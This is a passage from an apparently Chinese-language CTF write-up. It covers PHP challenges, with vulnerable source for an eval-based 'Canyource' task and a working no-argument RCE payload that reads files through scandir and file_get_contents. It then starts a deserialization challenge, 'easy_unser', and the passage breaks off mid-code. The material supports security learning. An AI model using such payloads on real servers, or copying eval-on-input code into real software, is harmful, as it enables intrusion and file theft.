 ### Canyource

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['code'])&&!preg_match('/url|show|high|na|info|dec|oct|pi|log|data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['code'])){
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);}
else
    die('nonono');}
else
    echo('please input code');
?> 
```

常规的无参rce

```php
print(base64_encode(file_get_contents(array_rand(array_flip(scandir(pos(localeconv())))))));
```

### easy_unser

```php
<?php 
    include 'f14g.php';
    error_reporting(0);

    highlight_file(__FILE__);

    class body{

    private $want,$todonothing = "i can't get you want,But you can tell me before I wake up and change my mind";

    public function  __construct($want){
        $About_me = "When the object is created,I will be called";
        if($want !== " ") $this->want = $want;
        else $this->want = $this->todonothing;
    }
    function __wakeup(){
        $About_me = "When the object is unserialized,I will be called";
        $but = "I can CHANGE you";
        $this-> want = $but;
        echo "C1ybaby!";
        
    }
    function __destruct(){
        $About_me = "I'm the final function,when the object is destroyed,I will be called";
        echo "So,let me see if you can get what you want\n";
        if($this->todonothing === $this->want)
            die("鲍勃,别傻愣着!\n");
        if($this->want == "I can CHANGE you")
            die("You are not you....");
        if($this->want == "f14g.php" OR is_file($this->want)){
            die("You want my heart?No way!\n");
        }else{
            echo "You got it!";
            highlight_file($this->want);
            }
    }
}

    class unserializeorder{
```